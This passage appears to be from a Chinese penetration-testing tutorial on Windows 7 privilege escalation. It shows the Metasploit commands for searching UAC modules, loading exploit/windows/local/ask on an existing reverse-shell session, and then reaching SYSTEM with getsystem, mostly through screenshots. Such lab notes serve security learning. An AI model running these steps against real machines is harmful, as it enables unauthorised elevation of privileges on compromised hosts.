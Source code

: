#### 确认getsystem无法提权

这里在反弹回来的时候测试一下getsystem是否无法提权。

![image-20230327194220066](https://s2.loli.net/2023/03/27/tESbJOvm3dcT8ky.png)

#### 搜索uac

这里先搜索uac，因为这里面有些uac可能对不同的系统会有不同的作用。

```
search uac ##搜索
```

<img src="https://s2.loli.net/2023/03/27/m3p7NSWEgY4a9iO.png" alt="image-20230327161629588" style="zoom: 50%;" />

#### 使用uac

这里我们使用的是Windows7，那么我们就使用exploit/windows/local/ask来执行。

```
use exploit/windows/local/ask    ##选择模块
sessions         ##查看后台进程
set session 1    ##选择进程
set lport 5555   ##设置监听端口，有时候返回回来会出现错误，所以就另起一个监听。
```

![image-20230327194246924](https://s2.loli.net/2023/03/27/5fOz2e93ShWR6BH.png)

这里查看一下监听，看看返回的权限，然后在返回的权限中再次使用getsystem，发现能够提权到system权限。

![image-20230327194333780](https://s2.loli.net/2023/03/27/R41re8XDsM29NkU.png)